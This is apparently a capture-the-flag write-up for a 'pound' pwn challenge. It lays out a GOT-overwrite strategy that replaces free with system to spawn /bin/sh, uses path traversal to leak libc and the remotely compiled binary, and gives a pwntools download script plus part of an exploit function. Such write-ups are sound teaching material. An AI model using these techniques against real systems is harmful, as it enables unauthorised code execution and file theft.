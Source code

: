 
With this two basic primitives the attack strategy is pretty easy:

1. We leak at `free_in_got` to get `free_in_libc_at_runtime`
2. We calculate the offset from libc to obtain `system_in_libc_at_runtime`
3. We write `system_in_libc_at_runtim` at `free_in_got`
4. We create an announcement containing `/bin/sh\x00`
5. We call `remove_announcement()`, this will trigger `system(/bin/sh\x00)`

<br>Ok, we got the basic idea, now we have to apply it. We still face a couple issues:

1. We need the libc used by the remote binary to calculate `system_in_libc_at_runtime`
2. We need the exact binary compiled by the remote host to know `free_in_got`, since our version of clang could compile a different one (we found out this was the case).

<br>Leaking libc is not a big deal, we still have the read_tweet() function on our side. We can use it on something like `../../../../lib/i386-linux-gnu/libc.so.6` ( we already had it leaked from a previus pwning challenge but verified this worked aswell). To leak the binary the procedure was slightly more difficult since the file name was choosen according to:
```python 
str_to_hash = "[]{0}[]{1}##END".format(input1,input2)
sim_id = hashlib.sha256(str_to_hash).hexdigest()
sim_name = "sims/sim-{0}".format(sim_id)

if os.path.isfile(sim_name):
    print "Sim compiled, running sim..."
else:
    print "Compiling Sim"
    ret = subprocess.call(["clang", "-m32", "-DL1={}".format(input1),
                    "-DL2={}".format(input2), "pound.c", "-o",
                    sim_name])
```
We made a custom script to download it:
```python
from pwn import *
​
r = remote("pound.pwning.xxx", 9765)
​print r.recvuntil("Quit\n")
r.sendline("1")
print r.recvuntil("20)\n")
str_to_hash = "[]258[]N;k##END"
sim_id = hashlib.sha256(str_to_hash).hexdigest()
to_send = "../sims/sim-{0}".format(sim_id)
r.sendline(to_send)
binary_data = r.recvuntil("1. Read Trump article")
f = open("binary", "w")
f.write(binary)
f.close()
```
That's it, [the exploit](/writeup_files/pound/pwnpound.py) will do the job! To get a better understanding on how it works and how something more of the pseudocode written above was needed I'm gonna explain some steps in detail, also refer to comments in the file for a deeper understanding:

<br> First step: 
```python 
def first_step(address):
	fake_address = address + 100
	initialize(fake_address)
	propagate_fw(fake_address)
	initialize(0)
	p = log.progress('Propagating_fw')
	for i in xrange(256):
		p.status("prop " + str(i) + " of 256")
		propagate_fw(fake_address)
	propagate_fw(100)
	p.success("Finish")
	conn.sendline("0")
```